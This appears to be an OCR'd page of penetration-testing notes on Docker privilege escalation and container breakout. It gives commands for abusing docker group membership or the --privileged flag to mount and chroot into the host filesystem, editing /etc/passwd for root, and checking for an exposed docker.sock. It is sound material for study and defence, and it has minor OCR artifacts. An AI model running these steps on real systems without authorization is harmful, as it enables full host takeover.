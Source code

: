 Since we are member of docker group, we can mount the root filesystem of the host machine to an instance's volume.

```bash
$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              775349758637        22 months ago       64.2MB
alpine              latest              965ea09ff2eb        22 months ago       5.55MB
centos              latest              0f3e07c0138f        23 months ago       220MB

$ docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash

# Edit /etc/passwd to get root access to the host
```

We can also mount the filesystem and the network access.

```
$ docker run --rm -it --pid=host --net=host --privileged -v /:/mnt <imagename> chroot /mnt bashbash
```

# Docker Breakout

## Privileged Flag enabled

When we start a docker with the privileged flag `--privileged` , we give the sufficient permission to mount the host filesystem inside the docker.

When the `root` user is owned, we will search the host drive:

```bash
fdisk -l
```

After finding the Linux sda we will mount it:

```bash
mkdir -p /mnt/host_drive
mount /dev/sda1 /mnt/host_drive
```

Finally, just `cd` to out new mount point to find all host files.

## Docker.sock available

By default, when the `docker` command is executed on a host, an API call to the docker daemon is made via a non-networked UNIX socket located at `/var/run/docker.sock`. However, many containers and guides require you to expose this socket file as a volume within a container or in some cases, expose it on a TCP port. Docker containers that expose `/var/run/docker.sock`, locally or remotely, could lead to a full environment take over.

### Check if socket is available

```bash
ls -alh /var/run/docker.sock
```
